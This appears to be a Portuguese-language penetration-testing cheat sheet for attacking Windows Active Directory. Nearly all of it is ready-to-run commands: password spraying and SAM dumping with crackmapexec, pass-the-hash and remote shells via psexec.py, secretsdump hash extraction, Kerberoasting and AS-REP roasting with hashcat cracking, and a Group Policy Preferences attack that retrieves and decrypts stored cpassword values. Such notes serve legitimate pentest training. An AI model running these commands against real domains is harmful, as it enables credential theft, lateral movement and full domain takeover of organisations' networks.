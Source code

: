 

#### CRACKMAPEXEC
```
$ sudo apt install crackmapexec
```

###### Sprayattack:  
```
$ crackmapexec 192.168.0.0/24 -u alice -d Enterprise.local -p Password1 
$ crackmapexec 192.168.0.0/24 -u alice -d Enterprise.local -p Password1 --sam
$ psexec.py Enterprise/alice:Password1@192.168.0.100
C:\> whoami
```

###### Passando o hash:  
```
$ crackmapexec 192.168.0.0/24 -u "Alice Winchester" -h SegundaParteDoHash --local
$ psexec.py "Alice Winchester":@192.168.0.100 -hashes aa787sdf76asdf:76fasd6f7asd6f 
```

##### SECRETSDUMP:  
> [despejo de hashs]  
```
$ secretsdump.py Enterprise/alice:Password1@192.168.0.100
c:\> hashcat64.exe -m 1000 hashes.txt
```

#### KERBEROASTING
> [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/]  
> [movimento vertical]  
```
$ GetUserSPNs.py Enterprise.local/alice:Password1 -dc-ip IP-DO-AD -request
$ hashcat --help | egrep Kerberos
$ hashcat -m 13100 hash.txt rockyou.txt --force
```

###### OU:  
```
$ python GetNPUsers.py Enterprise.local/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
$ cat hashes.asreproast
$ python GetNPUsers.py Enterprise.local/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
$ hashcat -m 18200 --force -a 0 hashes.asreproast
```

#### GPP ATTACK
```
$ smbclient -L \\\\10.10.10.100\\
$ smbclient \\\\10.10.10.100\\IPC$
smb:\> prompt off
smb:\> recurse on
smb:\> ls
Groups.xml

smb:\> mget *
```
> Pegue o valor do cpassword  
```
$ gpp-decrypt  cpassword-value
$ GetUserSPNs.py Enterprise.local/alice -dc-ip 10.10.10.100 -request
$ hashcat -m 13100 hash.txt rockyou.txt --force
$ psexec.py Enteprise.local/administrator:Password1@10.10.10.100
```
